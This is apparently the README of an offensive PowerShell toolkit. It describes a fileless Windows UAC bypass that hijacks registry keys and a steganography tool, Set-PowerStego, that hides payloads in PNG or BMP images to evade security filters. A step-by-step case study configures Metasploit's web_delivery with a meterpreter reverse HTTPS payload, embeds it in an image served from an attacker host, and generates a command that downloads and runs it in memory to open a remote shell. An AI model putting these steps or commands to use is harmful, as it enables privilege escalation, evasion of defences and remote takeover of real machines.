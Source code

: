 # Offensive-PowerShell
Collection of powershell scripts to be used during an offensive operation.   

## Set-FilelessBypassUac
Bypass the Windows User Account Control (UAC) with fileless methods.

Based on “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking technique from Matt Nelson (@enigma0x3).
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

### METHODS:

* mscfile - Matt Nelson (@enigma0x3) method using CompMgmtLauncher.exe to replace eventvwr.exe.

    Working on:
    *  Microsoft Windows 7;
    *  Microsoft Windows 8;
    *  Microsoft Windows 8.1;
    *  Microsoft Windows 10 (UNTIL the build 15025.rs2)
    *  Microsoft Windows 2008;
    *  Microsoft Windows 2008 R2;
    *  Microsoft Windows 2016.

* ms-settings - NEW method using ms-settings registry key with DelegateExecute and fodhelper.exe.

    Working on:
    *  Microsoft Windows 10 (tested with successful until the build 15031.rs2)
    *  Microsoft Windows 2016.

## Set-PowerStego
Set-PowerStego allows text or binary files (including payloads developed in powershell and/or PE files) to be inserted into a selected image (BMP or PNG) using the Least Significant Bits (LSB) technique.
It will also be possible to recover the inserted file and in some cases execute it directly in the memory.(Does not touch the disk).

With Set-PowerStego you can bypass Layer 7 security solutions.

### METHODS:

* Analyze - Analyze the selected image, obtaining information about its properties and storage capacities. Important to identify the amount of pixels in the selected image and the amount of bytes supported during insertion of a file;
* Hide - Generate a new image hiding a file inside of a selected image; 
* UnHide - Extracts the file that exists inside of a selected image to disk;
* GeneratePayload - Generates two command lines (scripts), a BASE64 and a COMPRESSED scripts to execute on the target. The command lines are intended to extract a file from the selected image and run it in memory (Powershell Text - Script) or disk (BINARY - Executable file).

###Steps
    1 - Hide a PAYLOAD inside of a image (with a good resolution);
    2 - Store the image on a Webserver that target have access;
    3 - Run the trigger (powershell command line) on the target;
      * The target will download the image to the memory;
      * The payload will be extract on the memory;
      * Powershell payloads will be executed on the memory and PE payloads will be copied to the disk and executed.
    4 - Receive your shell.

### CASE STUDY - Hiding a meterpreter payload inside of image.  
    1 - Open the msfconsole.
    msfconsole

    2 - Select and configure the web_delivery exploit.
    use exploit/multi/script/web_delivery  
    set windows/meterpreter/reverse_https
    set target 2
    set srvport 80
    set uripath /report
    set LHOST <IPADDRESS>
    set LPORT 443
    exploit

    3 - From your Windows machine download the powershell script from web_delivery.
    iwr http://IPFROMMETASPLOITHOST/report -OutFile report.txt

    4 - Open the powershell and import the Set-Powerstego.ps1.
    Import-Module Set-Powerstego.ps1

    5 - Select and analize the properties from a image (BMP or PNG) with a good resolution.
    Set-PowerStego -Method Analyze -ImageSource File -ImageSourcePath <image.png>

    6 - Hide de payload inside the image.
    Set-PowerStego -Method Hide -ImageSource File -ImageSourcePath myimage.png -ImageDestinationPath myimagewithpayload.png -PayloadSource Text -PayloadPath script.ps1

    7 - Copy the image to the METASPLOIT host and start a webserver to be possible access the image.
    cd imagefolder
    pythom -m SimpleHTTPServer 8080

    8 - From the Windows workstation extract the payload to the disk.
    Set-PowerStego -Method UnHide -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath report2

    Open the file report2 and compare with the file report.  

    9 - Generate a command line to execute the payload on the target.
    Set-PowerStego -Method GeneratePayload -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath myscript.txt

    Execute the content from the file myscript.txt on any Windows workstion with powershell and access to the metasploit host. After the execution, it will be download the image to the memory from the target, the payload extration and execution on the memory, and you will receive a meterpreter shell on the Metasploit host.
